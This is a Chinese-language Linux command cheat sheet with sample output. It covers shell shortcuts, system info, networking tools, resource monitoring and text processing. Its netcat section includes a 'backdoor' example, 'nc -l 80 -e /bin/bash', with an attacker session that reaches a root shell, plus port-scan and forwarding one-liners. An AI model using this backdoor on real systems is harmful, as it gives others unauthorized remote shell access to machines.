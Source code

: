= linux常用命令草集
:toc-title: 目录
:tip-caption: 💡
:note-caption: ℹ️
:important-caption: ❗
:caution-caption: 🔥
:warning-caption: ⚠️
// :tip-caption: :bulb:
// :note-caption: :information_source:
// :important-caption: :heavy_exclamation_mark:	
// :caution-caption: :fire:
// :warning-caption: :warning:
:icons: font

Doc writer yaoyihao1@gmail.com

== 你可能不知道的个人常用命令

----bash
ctrl u 可以删除行内光标所在位置之前的内容 - 常用
ctrl l 可以清屏 - 常用
ctrl a 可以将光标移至行首
ctrl e 可以将光标移至行尾
ctrl k 可以删除光标至行尾的所有内容
ctrl w 删除你键入的最后一个单词

cd - 回到前一个工作路径
----

== 特殊符号的应用

=== ! -d

> 检查某个目录是否存在

----
和上面的命令类似。这里是检测目录是否为空，如果为空则退出命令
skyler@bogon  ~/skyler/a [ ! -d /home/test/exist ] && exit
检测目录是否为空，如果为空则创建该目录
skyler@bogon  ~/skyler/a [ ! -d /home/test/exist ] && mkdir /home/test/exist

----

=== !$ 

> 将上一条命令的参数传递给下一条命令参数

当这个参数特别长的时候此命令特别有用

----`bash
skyler@bogon  ~/skyler/a 201910  cd /Users/skyler/skyler/a
skyler@bogon  ~/skyler/a 201910  ll !$
skyler@bogon  ~/skyler/a 201910  ll /Users/skyler/skyler/a
total 64
-rw-r--r--  1 skyler  staff   346B  8  8 11:55 Dockerfile
-rw-r--r--  1 skyler  staff   249B  8  9 14:16 README.md
----`

===  !!

> 执行上一条命令

----bash
[root@aizbp11lqlgyf2g31fgs4hg ~]# cat test.sh
echo $# $0 $1
aaa=111
[root@aizbp11lqlgyf2g31fgs4hg ~]# !!
cat test.sh
echo $# $0 $1
aaa=111
----



=== 从历史记录中使用命令号来运行命令

首先输入 “**history**” 命令得到命令的序号

----bash
skyler@bogon  ~/bin history
10063* [ ! d ~/test/exist ] && echo "no"
10064* [ diff ~/test/exist ] && echo "no"
10065* [ ! -d ~/test/exist ] && echo "no"
10066* [ ! -d ~/bin ] && echo "no"
----

然后通过每行前的序号结合!来执行此行命令

----bash
skyler@bogon  ~/bin  !10065
skyler@bogon  ~/bin  [ ! -d ~/test/exist ] && echo "no"
----

还可以使用!-n, n为数字

----bash
skyler@bogon  ~/bin  !-2
skyler@bogon  ~/bin  [ ! -d ~/test/exist ] && echo "no"
----



== 系统信息

----
cat /proc
uname
----

=== cat /proc 系统信息

----
cat /proc/{xxx}
----

=== uname

----
[root@aizbp11lqlgyf2g31fgs4hg ~]# uname -a
Linux aizbp11lqlgyf2g31fgs4hg 3.10.0-693.2.2.el7.x86_64 #1 SMP Tue Sep 12 22:26:13 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

查看主机名
[root@aizbp11lqlgyf2g31fgs4hg ~]# uname -n
aizbp11lqlgyf2g31fgs4hg

查看linux发行版及版本号
方法一
[root@aizbp11lqlgyf2g31fgs4hg /]# cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)

方法二
[root@aizbp11lqlgyf2g31fgs4hg /]# cat /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

方法三
[root@aizbp11lqlgyf2g31fgs4hg /]# lsb_release  -a
LSB Version:	:core-4.1-amd64:core-4.1-noarch
Distributor ID:	CentOS
Description:	CentOS Linux release 7.4.1708 (Core)
Release:	7.4.1708
Codename:	Core
----



== 网络

=== 网络连接(进程端口)

----
ss：查看网络连接
lsof：查看网络连接
----

==== ss - socket statistics

查看网络连接，代替netstat命令，使用更简洁。

可以查看pid和服务端口的对应关系

----bash
[root@aizbp11lqlgyf2g31fgs4hg ~]# ss -ptl
State      Recv-Q Send-Q                                                                                         Local Address:Port                                                                                                          Peer Address:Port
LISTEN     0      128                                                                                                   *:ssh                                                                                                                      *:*                     users:(("sshd",pid=1329,fd=3))
LISTEN     0      1                                                                                                  127.0.0.1:32000                                                                                                                    *:*                     users:(("java",pid=17595,fd=3))
LISTEN     0      128                                                                                                       :::lanmessenger                                                                                                            :::*                     users:(("docker-proxy-cu",pid=2937,fd=4))
[root@aizbp11lqlgyf2g31fgs4hg ~]#
----

----bash
[root@aizbp11lqlgyf2g31fgs4hg ~]# ss -ptln|grep 20282
LISTEN     0      100          *:20282                    *:*                   users:(("java",pid=17470,fd=21))
----

> `ss` 真正耀眼的地方是其内置的过滤能力

只想看已建立的 socket（排除了 *listening* 和 *closed* ）

----bash
$ ss state connected sport = :ssh
Netid State      Recv-Q Send-Q     Local Address:Port                      Peer Address:Port
tcp   ESTAB      0      0          192.168.0.136:ssh                      192.168.0.102:46540
----

列出指定的 host 或者 ip 段。例如，列出到达 74.125.0.0/16 子网的连接，这个子网属于 Google

----bash
$ ss state all dst 74.125.0.0/16
Netid State      Recv-Q Send-Q     Local Address:Port                      Peer Address:Port
tcp   ESTAB      0      0          192.168.0.136:33616                   74.125.142.189:https
tcp   ESTAB      0      0          192.168.0.136:42034                    74.125.70.189:https
tcp   ESTAB      0      0          192.168.0.136:57408                   74.125.202.189:https
----

==== lsof - list open files

> 非常实用的系统级的监控、诊断工具

----bash
查看指定端口有哪些进程在使用 lsof -i:PORT（lsof -i 列出所有的打开的网络连接） 
[root@aizbp11lqlgyf2g31fgs4hg ~]# lsof -i:32000
COMMAND   PID USER   FD   TYPE   DEVICE SIZE/OFF NODE NAME
wrapper  1105 root    6u  IPv4 53752676      0t0  TCP localhost:32000->localhost:31001 (ESTABLISHED)
java    17595 root    3u  IPv4 53752648      0t0  TCP localhost:32000 (LISTEN)
java    17595 root   28u  IPv4 53752674      0t0  TCP localhost:31001->localhost:32000 (ESTABLISHED)

查看指定进程pid打开的文件 losf -p pid
[root@aizbp11lqlgyf2g31fgs4hg ~]# lsof -p 17595
COMMAND   PID USER   FD   TYPE             DEVICE  SIZE/OFF     NODE NAME
java    17595 root  mem    REG              253,1   1078737  1313486 /usr/local/cloudmonitor/lib/spring-core-4.2.4.RELEASE.jar
java    17595 root  mem    REG              253,1   1097552  1313482 /usr/local/cloudmonitor/lib/spring-context-4.2.4.RELEASE.jar
java    17595 root  mem    REG              253,1    731512  1313485 /usr/local/cloudmonitor/lib/spring-beans-4.2.4.RELEASE.jar

列出被某个进程打开所有的网络文件
lsof -i -a -p 234

查看指定主机有哪些进程在使用
lsof -i@192.168.1.91

查看指定用戶打开的文件
lsof -u messagebus

查看指定程序打开的文件
lsof -c firefox

查看被删除的文件。有些删了的文件，但是进程没reload，那些空间还是占用的
lsof|grep -i delete

----



=== 网络管理

----
ip：
ifconfig：
dig：
----

==== ip - show / manipulate routing, devices, policy routing and tunnels

> ip 意在取代ifconfig

----
[root@aizbp11lqlgyf2g31fgsfhg ~]# ip addr|grep eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    inet 172.16.68.43/20 brd 172.16.79.255 scope global dynamic eth0
----

==== ifconfig - configure a network interface

----
[root@aizbp11lqlgyf2g31fgsfhg /]# ifconfig |grep inet
        inet 172.20.0.1  netmask 255.255.0.0  broadcast 172.20.255.255
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet 172.16.68.43  netmask 255.255.240.0  broadcast 172.16.79.255
        inet 127.0.0.1  netmask 255.0.0.0
----

==== dig - DNS lookup utility

> DNS查找工具

----
dig 从DNS域名服务器查询指定主机信息
dig baidu.com

从指定的 DNS 服务器上查询
dig @8.8.8.8 abc.filterinto.com

跟踪整个查询过程
如果你好奇 dig 命令执行查询时都经历了哪些过程，你可以尝试使用 +trace 选项。它会输出从根域到最终结果的所有信息：
$ dig +trace abc.filterinto.com
----



=== 网络调试(网络诊断)

----
wireshark：
nc：
mtr：
----



==== wireshark

> 强大的可视化工具 一定要会用 todo

----
wireshark
----



==== nc - netcat - Concatenate and redirect sockets

> 既可以网络调试又数据传输, 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀
>

===== 网络调试

----
todo
----

===== 数据传输

使用netcat实现聊天
----
47.98.189.37机器，监听80端口(注意:我这里是aliyun服务器，他的安全策略是只开放了80等端口，你使用其他端口可能无法实现聊天，这是因为阿里云的安全策略控制的，你需要配置你使用的端口)
接收端启动监听
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 80
ff
dfgdfg

发送端(mac机器)连接47.98.189.37机器的80端口
[skyler@mac ~]# nc 47.98.189.37 80
ff
dfgdfg

输入ff、dfgdfg可以看到消息已经相互传递了。断开时需要手动Ctrl + c
----

使用netcat实现文件传输
----
[root@izbp10lqlgy2g31s41bt94z ~]# nc -l 80 > test.sh
[root@izbp10lqlgy2g31s41bt94z ~]# ll
-rw-r--r-- 1 root root     0 10月 29 10:37 test.sh

[skyler@mac ~]# nc 47.98.189.37 80 < test.sh
传输完成，连接自动断开
----

===== 端口扫描工具

----
实例：nc -v -z -w2 192.168.31.164 1-100

-v：显示指令执行过程；
-z：使用0输入/输出模式，只在扫描通信端口时使用。
-w2：设置等待连线的时间为2s；
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -v -z -w2 192.168.31.164 38322
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connection timed out.
----

===== 安全工具
----
1. 端口转发，作为代理，
2. 创建后门(也叫反弹shell)
----

=====# 端口转发，作为代理
----
端口转发
我们通过选项 -c 来用 nc 进行端口转发，实现端口转发的语法为：
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -u -l  80 -c  'ncat -u -l 8080'

作为代理
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 8080 | nc 192.168.1.200 80
所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:

[root@aizbp11lqlgyf2g31fgsfhg ~]# mkfifo 2way
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 8080 0<2way | nc 192.168.1.200 80 1>2way
现在你可以通过 nc 代理来收发数据了。
----

====== 创建后门(也叫反弹shell)
----
受害者机器主动打开监听。-e为执行被给的命令，“nc -l 80 -e /bin/bash”含义为执行连接端输入的命令
[root@izbp10lqlgy2g31s41bt94z ~]# nc -l 80 -e /bin/bash

攻击端(连接端)连接受害者机器80端口，然后输入命令获取受害者机器的信息，从而实现攻击
[skyler@mac ~]# nc 47.98.189.37 80
w
 11:21:25 up 493 days, 23:11,  1 user,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    210.12.157.87    10:13   13.00s  0.04s  0.00s w
whoami
root
uname -a
Linux izbp10lqlgy2g31s41bt94z 3.10.0-693.2.2.el7.x86_64 #1 SMP Tue Sep 12 22:26:13 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
----

===== 监测工具
----
启动监听。等待连接端连接
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 80
----



==== mtr - a network diagnostic tool

是一款更好的网络诊断、网络调试跟踪工具，集成了traceroute、ping、nslookup的判断主机的网络连通性功能，用于诊断网络状态非常有用

----
[root@aizbp11lqlgyf2g31fgsfhg ~]# mtr www.baidu.com
----

![image-20191019225352819](linux命令温故知新/image-20191019225352819.png)

http://einverne.github.io/post/2017/11/mtr-usage.html



=== 网络带宽

----
nethogs: 按进程查看流量占用
iptraf: 按连接/端口查看流量
ifstat: 按设备查看流量
iftop: 按套接字看连接带宽流量占用
ethtool: 诊断工具
tcpdump: 抓包工具
ss: 连接查看工具
----



=== 网络传输(数据)

----
scp：不同机器上远程拷贝文件
nc：数据传输
----

==== scp - secure copy

----
scp是secure copy的简写，用于在Linux下进行远程拷贝文件的命令，和它类似的命令有cp，不过cp只是在本机进行拷贝不能跨服务器，而且scp传输是加密的。
可能会稍微影响一下速度。当你服务器硬盘变为只读 read only system时，用scp可以帮你把文件移出来。
另外，scp还非常不占资源，不会提高多少系统负荷，在这一点上，rsync就远远不及它了。
虽然 rsync比scp会快一点，但当小文件众多的情况下，rsync会导致硬盘I/O非常高，而scp基本不影响系统正常使用
----

===== 命令格式

> scp [参数] [原路径] [目标路径]

===== 命令功能

scp是 secure copy的缩写, scp是linux系统下基于ssh登陆进行安全的远程文件拷贝命令。linux的scp命令可以在linux服务器之间复制文件和目录。

===== 命令参数

----
-1 强制scp命令使用协议ssh1 
-2 强制scp命令使用协议ssh2 
-4 强制scp命令只使用IPv4寻址 
-6 强制scp命令只使用IPv6寻址 
-B 使用批处理模式（传输过程中不询问传输口令或短语） 
-C 允许压缩。（将-C标志传递给ssh，从而打开压缩功能） 
-p 保留原文件的修改时间，访问时间和访问权限。 
-q 不显示传输进度条。 
-r 递归复制整个目录。 
-v 详细方式显示输出。scp和ssh(1)会显示出整个过程的调试信息。这些信息用于调试连接，验证和配置问题。 
-c cipher 以cipher将数据传输进行加密，这个选项将直接传递给ssh。 
-F ssh_config 指定一个替代的ssh配置文件，此参数直接传递给ssh。 
-i identity_file 从指定文件中读取传输时使用的密钥文件，此参数直接传递给ssh。  
-l limit 限定用户所能使用的带宽，以Kbit/s为单位。  
-o ssh_option 如果习惯于使用ssh_config(5)中的参数传递方式， 
-P port 注意是大写的P, port是指定数据传输用到的端口号 
-S program 指定加密传输时所使用的程序。此程序必须能够理解ssh(1)的选项。
----



===== 使用实例

=====# 从本地服务器上传到远程服务器

----
(1) 上传文件
命令格式： 
scp local_file remote_username@remote_ip:remote_folder 
或者 
scp local_file remote_username@remote_ip:remote_file 
或者 
scp local_file remote_ip:remote_folder 
或者 
scp local_file remote_ip:remote_file 

第1,2个指定了用户名，命令执行后需要输入用户密码，第1个仅指定了远程的目录，文件名字不变，第2个指定了文件名 
第3,4个没有指定用户名，命令执行后需要输入用户名和密码，第3个仅指定了远程的目录，文件名字不变，第4个指定了文件名 

实例：上传本地文件到远程机器指定目录
scp /opt/soft/nginx-0.5.38.tar.gz root@10.80.100.20:/opt/soft/scptest
说明
上传本地opt/soft/目录下的文件nginx-0.5.38.tar.gz 到远程机器10.80.100.20的opt/soft/scptest目录

(2) 上传目录
命令格式： 
scp -r local_folder remote_username@remote_ip:remote_folder 
或者 
scp -r local_folder remote_ip:remote_folder 
第1个指定了用户名，命令执行后需要输入用户密码； 
第2个没有指定用户名，命令执行后需要输入用户名和密码；

实例：上传本地目录到远程机器指定目录
scp -r /opt/soft/mongodb root@10.80.100.20:/opt/soft/scptest
说明
上传本地opt/soft/目录到远程机器10.80.100.20的opt/soft/scptest目录
----



=====# 从远程服务器下载到本地服务器

----
从远程下载到本地的scp命令与上面的命令雷同，只要将从本地上传到远程的命令后面2个参数互换顺序就行了。
实例1：从远处下载文件到本地目录
scp root@10.80.100.20:/opt/soft/nginx-0.5.38.tar.gz /opt/soft/
说明
从10.80.100.20机器上的/opt/soft/的目录中下载nginx-0.5.38.tar.gz 文件到本地/opt/soft/目录中

实例2：从远处下载目录到本地目录
scp -r root@10.80.100.20:/opt/soft/mongodb /opt/soft/
说明
从10.80.100.20机器上的/opt/soft/中下载mongodb 目录到本地的/opt/soft/目录来。
----

参考：
https://www.cnblogs.com/webnote/p/5877920.html

==== nc - 数据传输
聊天
----
看看8090端口是否在使用
[work@vm ~]$ lsof -i:8090

监听8090端口
[work@vm ~]$ nc -l 8090
ffff
ggg
wo shi ni de

连接10.26.21.4机器的8090端口，注意
[skyler@skyler ~]$ nc 10.26.21.4 8090
ffff
ggg
wo shi ni de
----




== CPU、内存、硬盘的使用状态

=== cpu使用状态

----
top：获取 CPU 和硬盘的使用状态，通常使用使用 top（htop 更佳）
iostat：CPU利用情况报告
mpstat：CPU实时监控工具
----

==== 'iostat -c' CPU利用情况报告

----
iostat -c 1 10
avg-cpu: %user %nice %sys %iowait %idle
1.98 0.00 0.35 11.45 86.22
avg-cpu: %user %nice %sys %iowait %idle
1.62 0.00 0.25 34.46 63.67
----

==== mpstat- Multiprocessor Statistics

> 实时CPU监控工具

----

----



=== IO

----
iostat:设备、分片的输入输出统计数据
iotop:监视磁盘I/O使用状况工具
----



==== iostat - 报告CPU统计数据和设备、分片的输入输出统计数据

----
iostat主要用于监控系统设备的IO负载情况
iostat -mxz 15 可以让你获悉 CPU 和每个硬盘分区的基本信息和性能表现
----



==== iotop – simple top-like I/O monitor

> iotop是一个用来监视磁盘I/O使用状况的 top 类工具，可监测到哪一个程序使用的磁盘IO的信息（requires 2.6.20 or later）



=== 内存使用状态

----
free：展示内存的已使用和空闲的数量数据
vmstat：报告虚拟内存统计数据
/proc/meminfo：包含了更多更原始的信息，只是看起来不太直观
区别：free为你提供了概要信息，输出结果清晰；/proc/meminfo提供更多更原始的信息，是了解Linux系统内存使用状况的主要接口，我们最常用的”free”、”vmstat”等命令就是通过它获取数据的 
----



==== free - Display amount of free and used memory in the system

----
free
[root@aizbp11lqlgyf2g31fgsfhg ~]# free -h
              total        used        free      shared  buff/cache   available
Mem:           1.8G        1.1G         88M        668K        581M        501M
Swap:            0B          0B          0B

cat /proc/meminfo
[root@aizbp11lqlgyf2g31fgsfhg ~]# cat /proc/meminfo
MemTotal:        1883492 kB
MemFree:           91292 kB
MemAvailable:     513480 kB
Buffers:          105988 kB
Cached:           425896 kB
SwapCached:            0 kB
Active:          1398952 kB
Inactive:         287908 kB
Active(anon):    1155456 kB
Inactive(anon):      188 kB
Active(file):     243496 kB
Inactive(file):   287720 kB
Unevictable:           0 kB
Mlocked:               0 kB
----

==== vmstat - Report virtual memory statistics

----
vmstat: 内存使用状态
[root@aizbp11lqlgyf2g31fgsfhg ~]# vmstat
procs -----------memory---------- ---swap-- -----io---- -system-- ------cpu-----
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa st
 4  0      0  91008 106004 489120    0    0     3    11    1    0  2  1 98  0  0
----

==== /proc/meminfo

----

----



=== 硬(磁)盘使用状态

----
df：检查文件系统磁盘占用情况
du：检查磁盘空间占用情况,计算每个文件的大小然后累加
ncdu：是一个可以替代du命令的工具
iostat：硬盘的输入输出使用状态
fdisk：磁盘分区表数据，可以创建和维护分区表

du与df的区别：
du是通过搜索文件来计算每个文件的大小然后累加，du能看到的文件只是一些当前存在的，没有被删除的。他计算的大小就是当前他认为存在的所有文件大小的累加和。而df是检查文件系统的磁盘空间使用情况

du与ncdu的区别：
ncdu是一个可以替代du命令的工具，ncdu命令是对传统du命令功能上的增强.它比寻常的命令，如 du -sh *，更节省时间
----

==== df - disk free

----
df -h 查看各分区使用情况 
[root@aizbp11lqlgyf2g31fgsfhg ~]# df -h
文件系统        容量  已用  可用 已用% 挂载点
/dev/vda1        40G   19G   19G   51% /
devtmpfs        911M     0  911M    0% /dev
tmpfs           920M     0  920M    0% /dev/shm
tmpfs           920M  668K  920M    1% /run
tmpfs           920M     0  920M    0% /sys/fs/cgroup
tmpfs           184M     0  184M    0% /run/user/0
overlay          40G   19G   19G   51% /var/lib/docker/overlay2/85bcc5f201ed0fbf82697f11da0730fbb8543b0e6cc9707b43b331e6e02d4eb0/merged
shm              64M     0   64M    0% /var/lib/docker/containers/10f26d49e94eb6042a25a7807f293a5b75abe75af571414c0ae6e878b0ccdf41/shm

----

![image-20191020231155867](linux命令温故知新/image-20191020231155867.png)

==== du - disk usage

> 硬盘使用情况概述

----
查看root目录下的直接层级文件(夹)大小
[root@aizbp11lqlgyf2g31fgsfhg ~]# du -sh *
52K	hs_err_pid24203.log
52K	hs_err_pid25726.log
52K	hs_err_pid27481.log
4.0K	log.stack
2.2G	skyler_home
4.0K	test2.sh
4.0K	test.sh
4.0K	wget-log
[root@aizbp11lqlgyf2g31fgsfhg ~]# pwd
/root

查看root目录下的所有层级文件(夹)大小
[root@aizbp11lqlgyf2g31fgsfhg ~]# du -h *
略
----

==== ncdu

----
aliyun默认没有这个命令
----

==== iostat：硬盘的输入输出使用状态

----

----

==== fdisk：磁盘分区表数据

----
列出所有磁盘数据
[root@aizbp11lqlgyf2g31fgsfhg ~]# fdisk  -l

磁盘 /dev/vda：42.9 GB, 42949672960 字节，83886080 个扇区
Units = 扇区 of 1 * 512 = 512 bytes
扇区大小(逻辑/物理)：512 字节 / 512 字节
I/O 大小(最小/最佳)：512 字节 / 512 字节
磁盘标签类型：dos
磁盘标识符：0x0008d73a

   设备 Boot      Start         End      Blocks   Id  System
/dev/vda1   *        2048    83884031    41940992   83  Linux

查看/dev/vda1磁盘数据，并可以修改
[root@aizbp11lqlgyf2g31fgsfhg ~]# fdisk /dev/vda1
欢迎使用 fdisk (util-linux 2.23.2)。

更改将停留在内存中，直到您决定将更改写入磁盘。
使用写入命令前请三思。

Device does not contain a recognized partition table
使用磁盘标识符 0xbc589282 创建新的 DOS 磁盘标签。

命令(输入 m 获取帮助)：p

磁盘 /dev/vda1：42.9 GB, 42947575808 字节，83881984 个扇区
Units = 扇区 of 1 * 512 = 512 bytes
扇区大小(逻辑/物理)：512 字节 / 512 字节
I/O 大小(最小/最佳)：512 字节 / 512 字节
磁盘标签类型：dos
磁盘标识符：0xbc589282

     设备 Boot      Start         End      Blocks   Id  System

命令(输入 m 获取帮助)：
----



== 文本处理相关

=== 排序与过滤

==== sort 排序

----
sort
-t 指定分隔符（通常与 -k 联用）
-k 指定用于排序的列号
-n 以数字进行排序

实例：
[root@aizbp11lqlgyf2g31fgsfhg ~]# cat test.sh
echo $# $0 $1
aaa=111
echoaaa=1
echo aaa=31
fff=3
bbbf=50
aaa=111

[root@aizbp11lqlgyf2g31fgsfhg ~]# sort -n -t = -k 2 test.sh
echo $# $0 $1
echoaaa=1
fff=3
echo aaa=31
bbbf=50
aaa=111
aaa=111
----

可以看到文本按数字大小排序输出。最后两行是重复的，过滤重复我们就需要`uniq`命令了

==== uniq 过滤

----
往往与sort一起使用，从名字可以看出来，取唯一的意思
解决上文sort -n -t = -k 2 test.sh重复数据的问题，我们只需要这样做
[root@aizbp11lqlgyf2g31fgsfhg ~]# sort -t = -k 2 -n test.sh |uniq
echo $# $0 $1
echoaaa=1
fff=3
echo aaa=31
bbbf=50
aaa=111
----

=== 截取与连接

==== cut 按列切分文本

----
-b 以字节为单位进行分割
-c 以字符为单位进行分割
-f 以字段为分隔单位，与-d一起使用，指定显示哪个区域
-d 指定分隔符，默认制表符

实例：获取test-project-web服务配置中第18列=右侧的信息
全部信息为：
[skyler@tt ~]$ ps -ef|grep test-project-web
skyler     11021     1  3 10月09 ?      06:41:36 /usr/local/bin/java -server -Xmn1024m -Xms4096m -Xmx4096m -XX:PermSize=64M -XX:MaxPermSize=128M -XX:+PrintGCDetails -XX:+PrintGCDateStamps -Xloggc:/home/skyler/var/test-project/log/gc.log -Dlogging.path=/home/skyler/var/test-project/log -Dlogging.config.path=/data0/skyler/test-project/test-project/config/cp/ -Dlogging.config=/data0/skyler/test-project/test-project/config/cp/base-logback.xml -jar /data0/skyler/test-project/test-project/lib/test-project-web-1.1.0.jar --spring.profiles.active=dev --spring.config.location=classpath:/,/data0/skyler/test-project/test-project/system/ --spring.config.name=application

[skyler@tt ~]$ ps -ef|grep test-project-web|awk '{print $18}'|cut -d = -f 2
/home/skyler/var/test-project/log
----



==== paste 按列拼接文本

----
可以将两个文件的内容拼接在一起
实例：将test.sh与test2.sh拼接在一起
[root@aizbp11lqlgyf2g31fgsfhg ~]# echo "aa2" > test2.sh

[root@aizbp11lqlgyf2g31fgsfhg ~]# cat test.sh
echo $# $0 $1
aaa=111
echoaaa=1
echo aaa=31
fff=3
bbbf=50
aaa=111

[root@aizbp11lqlgyf2g31fgsfhg ~]# paste test.sh test2.sh
echo $# $0 $1	aa2
aaa=111
echoaaa=1
echo aaa=31
fff=3
bbbf=50
aaa=111

-d 按指定分隔符拼接
[root@aizbp11lqlgyf2g31fgsfhg ~]# paste test.sh test2.sh -d ','
echo $# $0 $1,aa2
aaa=111,
echoaaa=1,
echo aaa=31,
fff=3,
bbbf=50,
aaa=111,

----



=== 行列操作 - 重点

==== awk - 列操作

----
awk 和 sed
----

==== sed - 操作

----

----





== 文件处理相关

=== 文件内容比较

==== diff

----bash
diff file1 file2 -y

使用 diff -r tree1 tree2 | diffstat 查看变更的统计数据
----

==== vimdiff - edit two, three or four versions of a file with Vim and show differences

----
vimdiff 用于比对并编辑文件
----





